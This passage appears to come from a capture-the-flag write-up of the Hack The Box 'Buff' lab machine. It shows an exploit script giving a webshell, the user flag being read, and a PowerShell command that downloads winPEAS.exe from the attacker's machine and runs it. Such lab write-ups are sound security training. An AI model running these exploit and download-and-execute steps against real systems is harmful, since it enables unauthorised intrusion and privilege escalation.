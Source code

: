 We run the exploit, see who we are and get the user flag.

    :::text
    kali@kali:~$ python2 48506.py http://10.10.10.198:8080/
                /\
    /vvvvvvvvvvvv \--------------------------------------,
    `^^^^^^^^^^^^ /============BOKU====================="
                \/

    [+] Successfully connected to webshell.
    C:\xampp\htdocs\gym\upload>


    C:\xampp\htdocs\gym\upload> whoami
    �PNG
    �
    buff\shaun

    C:\xampp\htdocs\gym\upload> type "C:\Users\shaun\Desktop\user.txt"
    �PNG
    �
    6c675c6c581ec9341b8ed8717c537e32

# root

We can use our limited shell to download exec from our kali box (running a
simple python HTTP server) and execute them. For instance we can run
[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)

    :::text
    C:\xampp\htdocs\gym\upload> powershell -exec bypass -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.24:8080/winPEAS.exe', '.\winPEAS.exe')
    C:\xampp\htdocs\gym\upload> .\winPEAS.exe
    <SNIP>

## Cloudme

Still browsing our user's folders we found an specific binary in `Downloads`:
`CloudMe_1112.exe`.

    :::text
    C:\xampp\htdocs\gym\upload> dir "C:\Users\Shaun\Downloads"
    �PNG
    �
    Volume in drive C has no label.
    Volume Serial Number is A22D-49F7

    Directory of C:\Users\Shaun\Downloads

    14/07/2020  13:27    <DIR>          .
    14/07/2020  13:27    <DIR>          ..
    16/06/2020  16:26        17,830,824 CloudMe_1112.exe
                  1 File(s)     17,830,824 bytes
                  2 Dir(s)   9,639,174,144 bytes free
